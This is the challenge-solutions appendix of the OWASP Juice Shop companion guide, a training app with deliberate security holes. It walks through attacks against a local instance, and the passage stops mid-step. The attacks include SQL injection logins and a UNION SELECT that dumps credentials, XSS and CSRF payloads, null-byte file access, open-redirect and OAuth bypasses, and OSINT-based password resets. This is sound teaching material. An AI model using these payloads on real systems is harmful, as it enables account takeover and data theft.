# :godmode: Appendix A - Challenge solutions

All URLs in the challenge solutions assume you are running the
application locally and on the default port http://localhost:3000.
Change the URL accordingly if you use a different root URL.

Often there are multiple ways to solve a challenge. In most cases just
one possible solution is presented here. This is typically the easiest
or most obvious one from the author's perspective.

> The challenge solutions found in this release of the compantion guide
> are compatible with `{{book.juiceShopVersion}}` of OWASP Juice Shop.

### Find the carefully hidden 'Score Board' page

1. Open the _Source code view_ of your browser from any screen of the
   Juice Shop application.
2. Scroll down to the end of the `<nav>` tag that defines the menu bar

```html
    <li class="dropdown" ng-show="isLoggedIn()">
            <a href="#/complain"><i class="fa fa-bomb fa-lg"></i> <span translate="NAV_COMPLAIN"></span></a>
       </li>
       <!--
       <li class="dropdown">
           <a href="#/score-board">Score Board</a>
       </li>
       -->
       <li class="dropdown ribbon-spacer">
           <a href="#/about"><i class="fa fa-info-circle fa-lg"></i> <span translate="TITLE_ABOUT"></span></a>
       </li>
     </ul>
   </div>
 </nav>
```

1. Notice the commented out `<li>` entry labeled "Score Board".
2. Navigate to http://localhost:3000/#/score-board to solve the
   challenge.

### Provoke an error that is not very gracefully handled.

Any request that cannot be properly handled by the server will
eventually be passed to a global error handling component that sends an
error page to the client that includes a stacktrace and other sensitive
information. The restful API behaves in a similar way, passing back a
JSON error object with sensitive data, such as SQL query strings.

Here are four examples (out of many different ways) to provoke such an
error situation and solve this challenge along the way:

* Visit <http://localhost:3000/#/search?q=';>

  
* Visit <http://localhost:3000/ftp/crash>

  
* Visit <http://localhost:3000/ftp/crash.md>

  
* Log in to the application with `'` (single-quote) as _Email_ and
  anything as _Password_

  

### XSS Tier 1: Perform a reflected XSS attack

1. Paste the attack string `<script>alert("XSS1")</script>` into the
   _Search..._ field.
2. Click the _Search_ button.
3. An alert box with the text "XSS1" should appear.

   

### Get rid of all 5-star customer feedback

1. Log in to the application with any user.
2. Solve
   [Access the administration section of the store](#access-the-administration-section-of-the-store)

   
3. Delete all entries with five star rating from the _Customer Feedback_
   table using the trashcan button

### Access a confidential document

1. Follow the link to titled _Check out our boring terms of use if you
   are interested in such lame stuff_
   (<http://localhost:3000/ftp/legal.md?md_debug=true>) on the _About
   Us_ page.
2. Successfully attempt to browse the directory by changing the URL into
   <http://localhost:3000/ftp>

   
3. Open <http://localhost:3000/ftp/acquisitions.md> to solve the
   challenge.


### Access the administration section of the store

1. Open the `juice-shop.min.js` in your browser's developer tools and
   search for "admin".
2. Among the first entries you will find a route mapping to
   `/administration`.

   
3. Navigate to http://localhost:3000/#/administration to solve the
   challenge.


### Give a devastating zero-star feedback to the store

1. Visit the _Contact Us_ form and put in a _Comment_ text.
2. The _Submit_ button is **disabled** because you did not select a
   _Rating_.
3. Select any of the stars to set a _Rating_.
4. The _Submit_ button is now **enabled**.
5. Select the same star again to unset the _Rating_.
6. Click the (still **enabled**) _Submit_ button to solve the challenge.

   
7. You can verify the feedback was saved by checking the _Customer
   Feedback_ widget on the _About Us_ page.

   

### Log in with the administrator's user account

* Log in with _Email_ `' or 1=1--` and any _Password_ which will
  authenticate the first entry in the `Users` table which happens to be
  the administrator
* or log in with _Email_ `admin@juice-sh.op'--` and any _Password_ if
  you have already know the email address of the administrator
* or log in with _Email_ `admin@juice-sh.op` and _Password_ `admin123`
  if you looked up the administrator's password hash in a rainbow table
  after harvesting the user data
  * by solving
    [Retrieve a list of all user credentials via SQL Injection](#retrieve-a-list-of-all-user-credentials-via-sql-injection)
  * or via REST API call <http://localhost:3000/api/Users> after logging
    in as any user (even one you registered yourself).

### Log in with the administrator's user credentials without previously changing them or applying SQL Injection

1. Log in with _Email_ `admin@juice-sh.op` and _Password_ `admin123`
   which is as easy to guess as it is to brute force or retrieve from a
   rainbow table.

### Access someone else's basket

1. Log in as any user.
2. Put some products into your shopping basket.
3. Inspect the _Session Storage_ in your browser's developer tools to
   find a numeric `bid` value.

   
4. Change the `bid`, e.g. by adding or subtracting 1 from its value.
5. Visit <http://localhost:3000/#/basket> to solve the challenge.

> If the challenge is not immediately solved, you might have to
> `F5`-reload to relay the `bid` change to the Angular client.

### Access a salesman's forgotten backup file

1. Browse to <http://localhost:3000/ftp> (like in
   [Access a confidential document](#access-a-confidential-document).
2. Opening <http://localhost:3000/ftp/coupons_2013.md.bak> directly will
   fail complaining about an illegal file type.
3. Exploit a bug in the `md_debug` parameter that was obviously not
   supposed to go into production to bypass the filter and solve the
   challenge:
   <http://localhost:3000/ftp/coupons_2013.md.bak?md_debug=.md>

Alternatively this challenge can also be solved via _Poison Null Byte_
injection as in
[Access a developer's forgotten backup file](#access-a-developers-forgotten-backup-file).

### Change Bender's password into slurmCl4ssic without using SQL Injection

> The solution below assumes that you **do not know Bender's current
> password**, because in that case you could just change it via the
> _Password Change_ form.

1. Log in as anyone.
2. Inspecting the backend HTTP calls of the _Password Change_ form
   reveals that these happen via `HTTP GET` and submits current and new
   password in clear text.
3. Probe the responses of `/rest/user/change-password` on various
   inputs:
   * <http://localhost:3000/rest/user/change-password?current=A> yields
     a `401` error saying `Password cannot be empty.`
   * <http://localhost:3000/rest/user/change-password?current=A&new=B>
     yields a `401` error saying `New and repeated password do not
     match.`
   * <http://localhost:3000/rest/user/change-password?current=A&new=B&repeat=C>
     also says `New and repeated password do not match.`
   * <http://localhost:3000/rest/user/change-password?current=A&new=B&repeat=B>
     says `Current password is not correct.`
   * <http://localhost:3000/rest/user/change-password?new=B&repeat=B>
     yields a `200` success returning the updated user as JSON!
4. Now
   [Log in with Bender's user account](#log-in-with-benders-user-account)
   using SQL Injection.
5. Submit
   <http://localhost:3000/rest/user/change-password?new=slurmCl4ssic&repeat=slurmCl4ssic>
   to solve the challenge.

#### Bonus Round: Cross Site Request Forgery

If you want to craft an actual CSRF attack against
`/rest/user/change-password` you will have to invest a bit extra work,
because a simple attack like _Search_ for ``
will not work. Making someone click on the corresponding attack link
<http://localhost:3000/#/search?q=%3Cimg%20src%3D%22http:%2F%2Flocalhost:3000%2Frest%2Fuser%2Fchange-password%3Fnew%3DslurmCl4ssic%26repeat%3DslurmCl4ssic%22%3E>
will return a `500` error when loading the image URL:

```html
  <!-- ... -->
  <body>
    <div id="wrapper">
      <h1>Juice Shop (Express ~4.14)</h1>
      <h2><em>500</em> Error: Blocked illegal activity by ::1</h2>
      <ul id="stacktrace">
        <li> &nbsp; &nbsp;at C:\Data\Github\juice-shop\routes\changePassword.js:40:14</li>
        <li> &nbsp; &nbsp;at Layer.handle [as handle_request] (C:\Data\Github\juice-shop\node_modules\express\lib\router\layer.js:95:5)</li>
        <li> &nbsp; &nbsp;at next (C:\Data\Github\juice-shop\node_modules\express\lib\router\route.js:131:13)</li>
        <li> &nbsp; &nbsp;at Route.dispatch (C:\Data\Github\juice-shop\node_modules\express\lib\router\route.js:112:3)</li>
        <li> &nbsp; &nbsp;at Layer.handle [as handle_request] (C:\Data\Github\juice-shop\node_modules\express\lib\router\layer.js:95:5)</li>
        <li> &nbsp; &nbsp;at C:\Data\Github\juice-shop\node_modules\express\lib\router\index.js:277:22</li>
        <li> &nbsp; &nbsp;at Function.process_params (C:\Data\Github\juice-shop\node_modules\express\lib\router\index.js:330:12)</li>
        <li> &nbsp; &nbsp;at next (C:\Data\Github\juice-shop\node_modules\express\lib\router\index.js:271:10)</li>
        <li> &nbsp; &nbsp;at C:\Data\Github\juice-shop\node_modules\sequelize-restful\lib\index.js:22:7</li>
        <li> &nbsp; &nbsp;at Layer.handle [as handle_request] (C:\Data\Github\juice-shop\node_modules\express\lib\router\layer.js:95:5)</li>
      </ul>
    </div>
  </body>
```

To make this exploit work, some more sophisticated attack URL is
required, for example the following one which was originally described
in the blog post
[Hacking(and automating!) the OWASP Juice Shop](https://incognitjoe.github.io/hacking-the-juice-shop.html)
by Joe Butler:

<http://localhost:3000/#/search?q=%3Cscript%3Exmlhttp%20%3D%20new%20XMLHttpRequest;%20xmlhttp.open('GET',%20'http:%2F%2Flocalhost:3000%2Frest%2Fuser%2Fchange-password%3Fnew%3DslurmCl4ssic%26repeat%3DslurmCl4ssic');%20xmlhttp.send()%3C%2Fscript%3E>

Prettyprinted this attack is easier to understand:

```html
<script>
xmlhttp = new XMLHttpRequest;
xmlhttp.open('GET', 'http://localhost:3000/rest/user/change-password?new=slurmCl4ssic&repeat=slurmCl4ssic');
xmlhttp.send()
</script>
```

Anyone who is logged in to the Juice Shop while clicking on this link
will get their password set to the same one we forced onto Bender!

### Inform the shop about an algorithm or library it should definitely not use the way it does

Juice Shop uses some inappropriate crypto algorithms and libraries in
different places. While working on the following topics (and having the
`package.json.bak` at hand) you will learn those inappropriate choices
in order to exploit and solve them:

* [Forge a coupon code that gives you a discount of at least 80%](#forge-a-coupon-code-that-gives-you-a-discount-of-at-least-80)
  exploits `z85` (Zero-MQ Base85 implementation) as the library for
  coupon codes.
* [Solve challenge #99](#solve-challenge-99) requires you to create a
  valid hash with the `hashid` library.
* Passwords in the `Users` table are hashed with unsalted MD5
* Users registering via Google account will get a very cheap default
  password that involves Base64 encoding.

<!-- -->

1. Visit <http://localhost:3000/#/contact>
2. Submit your feedback with one of the following words in the comment:
   `z85`, `base85`, `base64`, `md5` or `hashid`.

### Order the Christmas special offer of 2014

1. Observe the Javascript console while submitting the text `';` via the
   _Search_ field.
2. The `error` object contains the full SQL statement used for search
   for products.

   
3. Its `AND deletedAt IS NULL`-part is what is hiding the Christmas
   product we seek.
4. Searching for `'--` results in a `SQLITE_ERROR: syntax error` on the
   Javascript console. This is due to two (now unbalanced) parenthesis
   in the query.
5. Searching for `'))--` fixes the syntax and successfully lists all
   products, including the (logically deleted) Christmas offer.
6. Add at least one _Christmas Super-Surprise-Box (2014 Edition)_ to
   your shopping basket.
7. Click _Checkout_ on the _Your Basket_ page to solve the challenge.

### Reset Jim's password via the Forgot Password mechanism

1. Trying to find out who "Jim" might be should _eventually_ lead you to
   _James T. Kirk_ as a possible option

   
2. Visit https://en.wikipedia.org/wiki/James_T._Kirk and read the
   [Depiction](https://en.wikipedia.org/wiki/James_T._Kirk#Depiction)
   section
3. It tells you that Jim has a brother named _George Samuel Kirk_
4. Visit http://localhost:3000/#/forgot-password and provide
   `jim@juice-sh.op` as your _Email_
5. In the subsequently appearing form, provide `Samuel` as _Your eldest
   siblings middle name?_
6. Then type any _New Password_ and matching _Repeat New Password_
7. Click _Change_ to solve this challenge

   

### Log in with Jim's user account

* Log in with _Email_ `jim@juice-sh.op'--` and any _Password_ if you
  have already know Jim's email address.
* or log in with _Email_ `jim@juice-sh.op` and _Password_ `ncc-1701` if
  you looked up Jim's password hash in a rainbow table after harvesting
  the user data as described in
  [Log in with the administrator's user account](#log-in-with-the-administrators-user-account).

### Log in with Bender's user account

* Log in with _Email_ `bender@juice-sh.op'--` and any _Password_ if you
  have already know Bender's email address.
* A rainbow table attack on Bender's password will probably fail as it
  is rather strong.

### XSS Tier 2: Perform a persisted XSS attack bypassing a client-side security mechanism

1. Submit a POST request to http://localhost:3000/api/Users with
   * `{"email": "<script>alert(\"XSS2\")</script>", "password": "xss"}`
     as body
   * and `application/json` as `Content-Type` header.

   
2. Log in to the application with any user.
3. Visit http://localhost:3000/#/administration.
4. An alert box with the text "XSS2" should appear.

   
5. Close this box. Notice the seemingly empty row in the _Registered
   Users_ table?
6. Click the "eye"-button next to that empty row.
7. A modal overlay dialog with the user details opens where the attack
   string is rendered as harmless text.

   

### XSS Tier 3: Perform a persisted XSS attack without using the frontend application at all

1. Log in to the application with any user.
2. Copy your `Authorization` header from any HTTP request submitted via
   browser.
3. Submit a POST request to <http://localhost:3000/api/Products> with
   * `{"name": "XSS3", "description":
     "<script>alert(\"XSS3\")</script>", "price": 47.11}` as body,
   * `application/json` as `Content-Type`
   * and `Bearer ?` as `Authorization` header, replacing the `?` with
     the token you copied from the browser.

   

   
4. Visit http://localhost:3000/#/search.
5. An alert box with the text "XSS3" should appear.

   
6. Close this box. Notice the product row which seemingly lacks a
   description in the _All Products_ table?
7. Click the "eye"-button next to that row.
8. Another alert box with the text "XSS3" should appear.

   

### Retrieve a list of all user credentials via SQL Injection

1. During the
   [Order the Christmas special offer of 2014](#order-the-christmas-special-offer-of-2014)
   challenge you learned that the _Search_ functionality is susceptible
   to SQL Injection.
2. The attack payload you need to craft is a `UNION SELECT` merging the
   data from the user's DB table into the products shown in the _Search
   Results_ table.
3. As a starting point we use the known working `'))--` attack pattern
   and try to make a `UNION SELECT` out of it
4. Searching for `')) UNION SELECT * FROM x--` fails with a
   `SQLITE_ERROR: no such table` as you would expect. But we can easily
   guess the table name or infer it from one of the previous attacks on
   the _Login_ form.
5. Searching for `')) UNION SELECT * FROM Users--` fails with a
   promising `SQLITE_ERROR: SELECTs to the left and right of UNION do
   not have the same number of result columns` which least confirms the
   table name.
6. The next step in a `UNION SELECT`-attack is typically to find the
   right number of returned columns. As the _Search Results_ table has 3
   columns displaying data, it will at least be three. You keep adding
   columns until no more `SQLITE_ERROR` occurs (or at least it becomes a
   different one):

   1. `')) UNION SELECT '1' FROM Users--` fails with `number of result
      columns` error
   2. `')) UNION SELECT '1', '2' FROM Users--` fails with `number of
      result columns` error
   3. `')) UNION SELECT '1', '2', '3' FROM Users--` fails with `number
      of result columns` error
   4. (...)
   5. `')) UNION SELECT '1', '2', '3', '4', '5', '6', '7' FROM Users--`
      _still fails_ with `number of result columns` error
   6. `')) UNION SELECT '1', '2', '3', '4', '5', '6', '7', '8' FROM
      Users--` shows a _Search Result_ with an interesting extra row at
      the bottom.

      
7. Next you get rid of the unwanted product results changing the query
   into something like `qwert')) UNION SELECT '1', '2', '3', '4', '5',
   '6', '7', '8' FROM Users--`

   
8. The last step is to replace the _visible_ fixed values with correct
   column names. You could guess those **or** derive them from the
   RESTful API results **or** remember them from previously seen SQL
   errors while attacking the _Login_ form.
9. Searching for `qwert')) UNION SELECT '1', id, email, password, '5',
   '6', '7', '8' FROM Users--` solves the challenge giving you a the
   list of all user data.

   

> There is of course a much easier way to retrieve a list of all users
> as long as you are logged in: Open
> <http://localhost:3000/#/administration> while monitoring the HTTP
> calls in your browser's developer tools. The response to
> <http://localhost:3000/rest/user/authentication-details> contains all
> the user data in JSON format. But: This does not involve SQL Injection
> so it will not count as a solution for this challenge.

### Post some feedback in another users name

1. Go to the _Contact Us_ form on <http://localhost:3000/#/contact>.
2. Inspect the DOM of the form in your browser to spot this suspicious
   text field right at the top: `<input type="text" id="userId"
   ng-model="feedback.UserId" ng-hide="true" class="ng-pristine
   ng-untouched ng-valid ng-empty ng-hide">`

   
3. In your browser's developer tools mark the entire `class` attribute
   and delete it.

   
4. The field should now be visible in your browser. Type any user's
   database identifier in there (other than your own if you are
   currently logged in) and submit the feedback.

> You can also solve this challenge by directly sending a `POST` to
> <http://localhost:3000/api/Feedbacks> endpoint. You just need to be
> logged out and send any `UserId` in the JSON payload.

### Place an order that makes you rich

1. Log in as any user.
2. Put at least one item into your shopping basket.
3. Note that reducing the quantity of a basket item below 1 is not
   possible via the UI, so you will need to attack the RESTful API
   directly instead.
4. Copy your `Authorization` header from any HTTP request submitted via
   browser.
5. Submit a `PUT` request to <http://localhost:3000/api/BasketItems/1>
   with:
   * `{"quantity": -100}` as body,
   * `application/json` as `Content-Type`
   * and `Bearer ?` as `Authorization` header, replacing the `?` with
     the token you copied from the browser.

   
6. Visit <http://localhost:3000/#/basket> to view _Your Basket_ with the
   negative quantity on the first item
7. Click _Checkout_ to issue the order and solve this challenge.

   

### Access a developer's forgotten backup file

1. Browse to <http://localhost:3000/ftp> (like in
   [Access a confidential document](#access-a-confidential-document).
2. Opening <http://localhost:3000/ftp/package.json.bak> directly will
   fail complaining about an illegal file type.
3. Exploiting the `md_debug` parameter like in
   [Access a salesman's forgotten backup file](#access-a-salesmans-forgotten-backup-file)
   will not work here - probably because `package.json.bak` is not a
   Markdown file.
4. Using a _Poison Null Byte_ (`%00`) the filter can be tricked, but
   only with a twist:
   * Accessing <http://localhost:3000/ftp/package.json.bak%00.md> will
     surprisingly **not** succeed...
   * ...because the `%` character needs to be URL-encoded (into `%25`)
     as well in order to work its magic later during the file system
     access.
5. <http://localhost:3000/ftp/package.json.bak%2500.md> will ultimately
   solve the challenge.

> By embedding NULL Bytes/characters into applications that do not
> handle postfix NULL terminators properly, an attacker can exploit a
> system using techniques such as Local File Inclusion. The Poison Null
> Byte exploit takes advantage strings with a known length that can
> contain null bytes, and whether or not the API being attacked uses
> null terminated strings. By placing a NULL byte in the string at a
> certain byte, the string will terminate at that point, nulling the
> rest of the string, such as a file extension.[^1]

### Change the href of the link within the O-Saft product description

1. By clicking the "eye"-button on the _O-Saft_ product in the _Search
   Results_ you will learn that it's database ID is `8`.
2. Submit a `PUT` request to <http://localhost:3000/api/Products/8>
   with:
   * `{"description": "<a href=\"http://kimminich.de\"
     target=\"_blank\">More...</a>"}` as body
   * and `application/json` as `Content-Type`

   

### Inform the shop about a vulnerable library it is using

Juice Shop depends on some Javascript libraries with known
vulnerabilities. Having the `package.json.bak` and using an external
service like [Node Security Platform](https://nodesecurity.io/) makes it
rather easy to identify them:

* `sanitize-html` is pinned to version `1.4.2` which has a known bug of
  not sanitizing recursively (see
  [XSS Tier 4: Perform a persisted XSS attack bypassing a server-side security mechanism](#xss-tier-4-perform-a-persisted-xss-attack-bypassing-a-server-side-security-mechanism))
* `sequelize` in the used version `1.7.x` has several known issues with
  SQL Injection

<!-- -->

1. Visit <http://localhost:3000/#/contact>
2. Submit your feedback with one of these two string pairs appearing
   somewhere in the comment:
   * `sanitize-html` and `1.4.2` or
   * `sequelize` and `1.7`.

### Find the hidden easter egg

> An Easter egg is an intentional inside joke, hidden message, or
> feature in an interactive work such as a computer program, video game
> or DVD menu screen. The name is used to evoke the idea of a
> traditional Easter egg hunt.[^2]

1. Use the _Poison Null Byte_ attack described in
   [Access a developer's forgotten backup file](#access-a-developers-forgotten-backup-file)...
2. ...to download <http://localhost:3000/ftp/eastere.gg%2500.md>

### Travel back in time to the golden era of web design

1. Visit <http://localhost:3000/#/score-board>
2. Inspecting the rotating "Hot"-image indicates that it is part of a
   CSS theme `geo-bootstrap`

   ```html
   <div ng-bind-html="challenge.description" class="ng-binding">
     Travel back in time to the golden era of  web design.
   </div>
   ```

3. Visit <https://github.com/divshot/geo-bootstrap> to learn that this
   _"timeless Twitter Bootstrap theme built for the modern web"_ comes
   with its own `bootstrap.css` that lives in a folder `/swatch`.
4. Open the Javascript console of your browser.
5. Submit the command
   `document.getElementById("theme").setAttribute("href",
   "css/geo-bootstrap/swatch/bootstrap.css");` to enable this beautiful
   alternative layout for the Juice Shop.

   
> Unfortunately the theme resets whenever you reload the page via `F5`
> so you have to reissue the above command from time to time to stay in
> _nostalgia mode_.

### Upload a file larger than 100 kB

1. The client-side validation prevents uploads larger than 100 kB.
2. Craft a `POST` request to <http://localhost:3000/file-upload> with a
   form parameter `file` that contains a PDF file of more than 100 kB
   but less than 200 kB.

   
3. The response from the server will be a `204` with no content, but the
   challenge will be successfully solved.

> Files larger than 200 kB are rejected by an upload size check on
> server side with a `500` error stating `Error: File too large`.

### Upload a file that has no .pdf extension

1. Craft a `POST` request to <http://localhost:3000/file-upload> with a
   form parameter `file` that contains a non-PDF file with a size of
   less than 200 kB.

   
2. The response from the server will be a `204` with no content, but the
   challenge will be successfully solved.

> Uploading a non-PDF file larger than 100 kB will solve
> [Upload a file larger than 100 kB](#upload-a-file-larger-than-100-kb)
> simultaneously.

### Log in with Bjoern's user account

1. Bjoern has registered via Google OAuth with his (real) account
   <bjoern.kimminich@googlemail.com>.
2. Cracking his password hash will probably not work.
3. To find out how the OAuth registration and login work, inspect the
   `juice-shop.min.js` and search for `OAuthController`.

   
4. The `e.login()` function call leaks how the password is set:
   `password: d.encode(f.email)`
5. Checking the controller declaration you will see that `d` is actually
   an Angular service named `$base64`.
6. Now that you know that the auto-generated password for OAuth users is
   just their Base64-encoded email address, you can just log in with
   _Email_ `bjoern.kimminich@googlemail.com` and _Password_
   `YmpvZXJuLmtpbW1pbmljaEBnb29nbGVtYWlsLmNvbQ==`.

### Reset Bender's password via the Forgot Password mechanism

1. Trying to find out who "Bender" might be should _immediately_ lead
   you to _Bender from [Futurama](http://www.imdb.com/title/tt0149460/)_
   as the only viable option

   
2. Visit https://en.wikipedia.org/wiki/Bender_(Futurama) and read the
   _Character Biography_ section
3. It tells you that Bender had a job at the metalworking factory,
   bending steel girders for the construction of _suicide booths_.
4. Find out more on _Suicide Booths_ on
   http://futurama.wikia.com/wiki/Suicide_booth
5. This site tells you that their most important brand is _Stop'n'Drop_
6. Visit http://localhost:3000/#/forgot-password and provide
   `bender@juice-sh.op` as your _Email_
7. In the subsequently appearing form, provide `Stop'n'Drop` as _Company
   you first work for as an adult?_
8. Then type any _New Password_ and matching _Repeat New Password_
9. Click _Change_ to solve this challenge

### Deprive the shop of earnings by downloading the blueprint for one of its products

1. The description of the _OWASP Juice Shop Logo (3D-printed)_ product
   indicates that this product might actually have kind of a blueprint
2. Download the product image from
   http://localhost:3000/public/images/products/3d_keychain.jpg and view
   its [Exif metadata](https://en.wikipedia.org/wiki/Exif)

   
3. Researching the camera model entry _OpenSCAD_ reveals that this is a
   program to create 3D models, which works with `.stl` files
4. As no further hint on the blueprint filename or anything is given, a
   lucky guess or brute force attack is your only choice
5. Download http://localhost:3000/public/images/products/JuiceShop.stl
   to solve this challenge
6. This model will actually allow you to 3D-print your own OWASP Juice
   Shop logo models!

   

### XSS Tier 4: Perform a persisted XSS attack bypassing a server-side security mechanism

In the `package.json.bak` you might have noticed the pinned dependency
`"sanitize-html": "1.4.2"`. Internet research will yield a reported
[XSS - Sanitization not applied recursively](https://nodesecurity.io/advisories/135)
vulnerability, which was fixed with version 1.4.3 - one release later
than used by the Juice Shop. The referenced
[GitHub issue](https://github.com/punkave/sanitize-html/issues/29)
explains the problem and gives an exploit example:

> Sanitization is not applied recursively, leading to a vulnerability to
> certain masking attacks. Example:
>
> `I am not harmless: <img src="csrf-attack"/>`
> is sanitized to `I am not harmless: `
>
> Mitigation: Run sanitization recursively until the input html matches
> the output html.

1. Visit http://localhost:3000/#/contact.
2. Enter `<<script>Foo</script>script>alert("XSS4")<</script>/script>`
   as _Comment_
3. Choose a rating and click _Submit_
4. Visit http://localhost:3000/#/about for a first "XSS4" alert (from
   the _Customer Feedback_ slideshow)

   
5. Visit http://localhost:3000/#/administration for a second "XSS4"
   alert (from the _Customer Feedback_ table)

   

### Wherever you go, there you are

1. Pick one of the redirect links in the application, e.g.
   <http://localhost:3000/redirect?to=https://github.com/bkimminich/juice-shop>
   from the _Fork me on GitHub_-ribbon.
2. Trying to redirect to some unrecognized URL fails due to whitelist
   validation with `406 Error: Unrecognized target URL for redirect`.
3. Removing the `to` parameter (<http://localhost:3000/redirect>) will
   instead yield a `500 TypeError: Cannot read property 'indexOf' of
   undefined` where the `indexOf` indicates a severe flaw in the way the
   whitelist works.
4. Craft a redirect URL so that the target-URL in `to` comes with an own
   parameter containing a URL from the whitelist, e.g.
   <http://localhost:3000/redirect?to=http://kimminich.de?pwned=https://github.com/bkimminich/juice-shop>

### Apply some advanced cryptanalysis to find the real easter egg

1. Get the encrypted string from the `eastere.gg` from the
   [Find the hidden easter egg](#find-the-hidden-easter-egg) challenge:
   `L2d1ci9xcmlmL25lci9mYi9zaGFhbC9ndXJsL3V2cS9uYS9ybmZncmUvcnR0L2p2Z3V2YS9ndXIvcm5mZ3JlL3J0dA==`
2. Base64-decode this into
   `/gur/qrif/ner/fb/shaal/gurl/uvq/na/rnfgre/rtt/jvguva/gur/rnfgre/rtt`
3. Trying this as a URL will not work. Notice the recurring patterns
   (`rtt`, `gur` etc.) in the above string
4. ROT13-decode this into
   `/the/devs/are/so/funny/they/hid/an/easter/egg/within/the/easter/egg`
5. Visit
   <http://localhost:3000/the/devs/are/so/funny/they/hid/an/easter/egg/within/the/easter/egg>

   
6. Marvel at _the real_ easter egg: An interactive 3D scene of _Planet
   Orangeuze_!


> ROT13 ("rotate by 13 places", sometimes hyphenated ROT-13) is a simple
> letter substitution cipher that replaces a letter with the letter 13
> letters after it in the alphabet. ROT13 is a special case of the
> Caesar cipher, developed in ancient Rome.
>
> Because there are 26 letters (2×13) in the basic Latin alphabet, ROT13
> is its own inverse; that is, to undo ROT13, the same algorithm is
> applied, so the same action can be used for encoding and decoding. The
> algorithm provides virtually no cryptographic security, and is often
> cited as a canonical example of weak encryption.[^3]

### Retrieve the language file that never made it into production

1. Monitoring the HTTP calls to the backend when switching languages
   tells you how the translations are loaded:
   * <http://localhost:3000/i18n/en.json>
   * <http://localhost:3000/i18n/de.json>
   * <http://localhost:3000/i18n/nl.json>
   * etc.
2. Brute forcing for all possible two-letter language codes (`aa`, `ab`,
   ..., `zy`, `zz`) will not solve the challenge.
3. The hidden language is _Klingon_ which is represented by the
   three-letter code `tlh`.
4. Request <http://localhost:3000/i18n/tlh.json> to solve the challenge.
   majQa'!

> The Klingon language was originally created to add realism to a race
> of fictional aliens who inhabit the world of Star Trek, an American
> television and movie franchise. Although Klingons themselves have
> never existed, the Klingon language is real. It has developed from
> gibberish to a usable means of communication, complete with its own
> vocabulary, grammar, figures of speech, and even slang and regional
> dialects. Today it is spoken by humans all over the world, in many
> contexts.[^4]

### Exploit OAuth 2.0 to log in with the Chief Information Security Officer's user account

1. Visit <http://localhost:3000/#/login> and enter some known
   credentials.
2. Tick the _Remember me_ checkbox and _Log in_.
3. Inspecting the application cookies shows a new `email` cookie storing
   the plaintext email address.
4. _Log out_ and go back to <http://localhost:3000/#/login>. Make sure
   _Remember me_ is still ticked.
5. Using `ciso@juice-sh.op` as _Email_ and anything as _Password_
   perform a failed login attempt.
6. Inspecting the `email` cookie shows it was set to `ciso@juice-sh.op`
   even when login failed.
7. Inspecting any request being sent from now on you will notice a new
   custom HTTP header `X-User-Email: ciso@juice-sh.op`.
8. Now visit <http://localhost:3000/#/login> again, but this time choose
   the _Log in with Google_ button.
9. Visit <http://localhost:3000/#/contact> and check the _Author_ field
   to be surprised that you are logged in as `ciso@juice-sh.op` instead
   with your Google email address, because
   [the OAuth integration for login will accept the 'X-User-Email' header as gospel regardless of the account that just logged in](https://incognitjoe.github.io/hacking-the-juice-shop.html).

> If you do not own a Google account to log in with or are running the
> Juice Shop on a hostname that is not recognized, you can still solve
> this challenge by logging in regularly but add `"oauth": true` to the
> JSON payload `POST`ed to <http://localhost:3000/rest/user/login>.

### Reset Bjoern's password via the Forgot Password mechanism

1. Trying to find out who "Bjoern" might be should quickly lead you to
   the OWASP Juice Shop project leader and author of this ebook
2. Visit https://www.facebook.com/bjoern.kimminich to learn that he is
   from the town of _Uetersen_ in Germany
3. http://www.geopostcodes.com/Uetersen will tell you that Uetersen has
   ZIP code _25436_
4. Visit http://localhost:3000/#/forgot-password and provide
   `bjoern.kimminich@googlemail.com` as your _Email_
5. In the subsequently appearing form, provide `25436` as _Your
   ZIP/postal code when you were a teenager?_
6. Type and _New Password_ and matching _Repeat New Password_ followed
   by hitting _Change_ to **not solve** this challenge
7. Please read [Postal codes in Germany](#postal-codes-in-germany) to
   find out what detail you missed
8. Visit http://www.alte-postleitzahlen.de/uetersen to learn that
   Uetersen's old ZIP code was `W-2082`. Or written out: `West-2082`
9. Change the answer to _Your ZIP/postal code when you were a teenager?_
   into `West-2082` and click _Change_ again to finally solve this
   challenge

#### Postal codes in Germany

> Postal codes in Germany, Postleitzahl (plural Postleitzahlen,
> abbreviated to PLZ; literally "postal routing number"), since 1 July
> 1993 consist of five digits. The first two digits indicate the wider
> area, the last three digits the postal district.
>
> Before reunification, both the Federal Republic of Germany (FRG) and
> the German Democratic Republic (GDR) used four-digit codes. Under a
> transitional arrangement following reunification, between 1989 and
> 1993 postal codes in the west were prefixed with 'W', e.g.: W-1000
> \[Berlin\] 30 (postal districts in western cities were separate from
> the postal code) and those in the east with 'O' (for Ost), e.g.:
> O-1xxx Berlin.[^5]

### Inform the shop about a JWT issue

1. Log in with any user via <http://localhost:3000/#/login>
2. Find your JWT token in the `token` cookie (as well as in the
   `Authorization` request header) and paste it into <https://jwt.io> to
   see it decoded:

   
3. To solve this challenge you need to find the right secret for the
   `HMACSHA256` function in the lower right box labeled _Verify
   Signature_. The default value of `secret` is obviously wrong as the
   :x:_Invalid Signature_ message at the bottom tells you
4. As the secret key for the JWT creation is kept on the server side and
   does not leak into the client, your best chance is either a really
   lucky guess or a brute force attack
5. Depending on your chosen word list (e.g. typical names) and its
   permutations (e.g. all-caps) you will come across `JOSE` as the key
   that gives you a :white_check_mark:_Signature Verified_ message:

   
6. Visit <http://localhost:3000/#/contact>
7. Submit your feedback with `JOSE` in the comment to solve this issue

### Forge a coupon code that gives you a discount of at least 80%

For this challenge there are actually two distinct _solution paths_ that
are both viable. These will be explained separately as they utilize
totally different attack styles.

#### _Pattern analysis_ solution path

1. Solve challenge
   [Access a salesman's forgotten backup file](#access-a-salesmans-forgotten-backup-file)
   to get the `coupons_2013.md.bak` file with old coupon codes.

```
 n<MibgC7sn
 mNYS#gC7sn
 o*IVigC7sn
 k#pDlgC7sn
 o*I]pgC7sn
 n(XRvgC7sn
 n(XLtgC7sn
 k#*AfgC7sn
 q:<IqgC7sn
 pEw8ogC7sn
 pes[BgC7sn
 l}6D$gC7ss
```

1. There is an obvious pattern in the last characters, as the first
   eleven codes end with `gC7sn` and the last with `gC7ss`.
2. You can rightfully speculate that the last five characters represent
   the actual discount value. The change in the last character for the
   12th code comes from a different (probably higher) discount in
   December! :santa:
3. Check the official Juice Shop Twitter account for a valid coupon
   code: <https://twitter.com/owasp_juiceshop>
4. At the time of this writing - January 2017 - the broadcasted coupon
   was `n<Mibh.u)v` promising a 50% discount.
5. Assuming that the discount value is encoded in the last 2-5
